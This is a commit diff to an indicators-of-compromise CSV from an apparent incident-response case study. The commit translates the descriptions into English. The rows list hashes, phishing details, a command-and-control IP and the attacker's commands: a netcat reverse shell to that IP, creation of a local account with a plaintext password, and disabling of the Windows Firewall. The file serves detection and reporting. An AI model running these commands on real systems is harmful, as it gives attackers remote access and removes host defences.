

Before and after one commit to JhonnyValdivieso/dfir-ir-case-study-terra, a CSV file: iocs/iocs.csv, drawn as a sheet.

Commit message:
Add files via upload

```diff
--- a/iocs/iocs.csv
+++ b/iocs/iocs.csv
@@ -1,21 +1,21 @@
 type,value,description,mitre_technique,confidence
-sha256,5f7e5e76ca74447126ef5bccb0584342dc0890e1a65e4cac7f84281230df0728,Payload principal - identico en $RD60126.exe y Historial_Pagos_Visa.pdf.exe,T1566.001|T1036.003,high
-sha256,b3b207dfab2f429cc352ba125be32a0cae69fe4bf8563ab7d0128bba8c57a71c,Netcat (nc.exe) usado como canal de C2,T1095,high
-filename,Historial_Pagos_Visa.pdf.exe,Senuelo con doble extension descargado via msedge.exe,T1036.003,high
-filename,$RD60126.exe,Artefacto escrito por outlook.exe en la Papelera de Reciclaje,T1566.001,high
-filename,nc.exe,Binario Netcat ejecutado desde %TEMP%,T1095,high
-filepath,C:\$Recycle.Bin\S-1-5-21-3250139449-4025979577-2541746667-1001\,Staging inicial del payload,T1566.001,high
-filepath,C:\Users\rogelio\Downloads\,Ubicacion de descarga del senuelo,T1204.002,high
-filepath,C:\Users\rogelio\AppData\Local\Temp\3\,Directorio de ejecucion de Netcat,T1059.001,high
-ip-dst,89.44.9.243,Servidor de Comando y Control,T1095,high
-port,8080,Puerto TCP de la Reverse Shell,T1095,high
-ip-dst,168.63.129.16,Destino de la anomalia de volumen - IP de plataforma Azure - REQUIERE VALIDACION,T1041,low
-ip-src,10.0.1.4,IP interna del host comprometido,,high
-hostname,technique-test,Activo comprometido (Azure eastus2),,high
-domain,outluok.co,Dominio typosquatted del remitente,T1566.001,high
-email-subject,¡¡Urgente!! Tu cuenta puede estar en peligro,Asunto del senuelo de spear phishing,T1566.001,high
-account,rogelio,Cuenta local clon creada por el adversario,T1136.001,high
-text,password2$,Credencial estatica de la cuenta clon,T1136.001,high
-command,nc.exe 89.44.9.243 -e powershell.exe 8080,Establecimiento de Reverse Shell,T1059.001,high
-command,New-LocalUser 'rogelio' -Password (ConvertTo-SecureString 'password2$' -AsPlainText -Force),Creacion de cuenta clon,T1136.001,high
-command,Set-NetFirewallProfile -Enabled False -All,Desactivacion del Firewall de Windows,T1562.001,high
+sha256,5f7e5e76ca74447126ef5bccb0584342dc0890e1a65e4cac7f84281230df0728,Primary payload - identical in $RD60126.exe and Historial_Pagos_Visa.pdf.exe,T1566.001|T1036.003,high
+sha256,b3b207dfab2f429cc352ba125be32a0cae69fe4bf8563ab7d0128bba8c57a71c,Netcat (nc.exe) used as the C2 channel,T1095,high
+filename,Historial_Pagos_Visa.pdf.exe,Double-extension lure downloaded via msedge.exe,T1036.003,high
+filename,$RD60126.exe,Artifact written by outlook.exe into the Recycle Bin,T1566.001,high
+filename,nc.exe,Netcat binary executed from %TEMP%,T1095,high
+filepath,C:\$Recycle.Bin\S-1-5-21-3250139449-4025979577-2541746667-1001\,Initial payload staging directory,T1566.001,high
+filepath,C:\Users\rogelio\Downloads\,Lure download location,T1204.002,high
+filepath,C:\Users\rogelio\AppData\Local\Temp\3\,Netcat execution directory,T1059.001,high
+ip-dst,89.44.9.243,Command and Control server,T1095,high
+port,8080,Reverse shell TCP port,T1095,high
+ip-dst,168.63.129.16,Volume anomaly destination - Azure platform IP - REQUIRES VALIDATION,T1041,low
+ip-src,10.0.1.4,Compromised host internal IP,,high
+hostname,technique-test,Compromised asset (Azure eastus2),,high
+domain,outluok.co,Typosquatted sender domain,T1566.001,high
+email-subject,Urgente - Tu cuenta puede estar en peligro,Spear phishing lure subject line,T1566.001,high
+account,rogelio,Cloned local account created by the adversary,T1136.001,high
+text,password2$,Static credential set on the clone account,T1136.001,high
+command,nc.exe 89.44.9.243 -e powershell.exe 8080,Reverse shell establishment,T1059.001,high
+command,New-LocalUser 'rogelio' -Password (ConvertTo-SecureString 'password2$' -AsPlainText -Force),Clone account creation,T1136.001,high
+command,Set-NetFirewallProfile -Enabled False -All,Windows Firewall shutdown,T1562.001,high
```
